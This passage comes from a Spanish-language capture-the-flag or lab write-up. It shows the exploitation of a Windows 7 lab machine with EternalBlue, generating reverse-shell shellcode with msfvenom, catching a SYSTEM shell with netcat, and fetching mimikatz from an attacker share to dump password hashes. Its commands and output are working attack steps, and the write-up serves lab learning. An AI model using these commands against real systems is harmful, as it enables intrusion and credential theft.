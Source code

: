 ```bash
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.2.11.100 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```

Tras ejecutar el script, nos ponemos en escucha en el puerto especificado (`80`) y, desde el directorio raíz del repositorio, lanzamos el exploit, indicando como parámetro la dirección IP de la máquina víctima y el shell code que habíamos generado antes.

```bash
❯ python eternalblue_exploit7.py 10.10.206.58 shellcode/sc_x64.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

> Es normal que el exploit falle en los primeros intentos, por lo que no hay que desanimarse. En mi caso, logré ejecutarlo con éxito después del cuarto intento.
{: .prompt-info }

Si todo salió bien, deberíamos obtener una shell con el usuario `nt authority\system`.

```bash
❯ rlwrap nc -nlvp 80
listening on [any] 80 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.206.58] 49279
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Cracking de contraseñas (Mimi Katz)

Con el acceso al sistema como `nt authority\system`, podemos obtener los hashes de las contraseñas de los usuarios con la herramienta `mimikatz`. Para usar esta herramienta en la máquina víctima, nos ubicamos en el directorio `/usr/share/windows-resources/mimikatz/x64` de la máquina atacante (Kali) y creamos un recurso compartido con cualquier nombre (en este caso se uso “a”), que contenga `mimikatz.exe`. Luego, desde la máquina víctima, descargamos el archivo con el comando `copy \10.2.11.100\a\mimikatz.exe`.
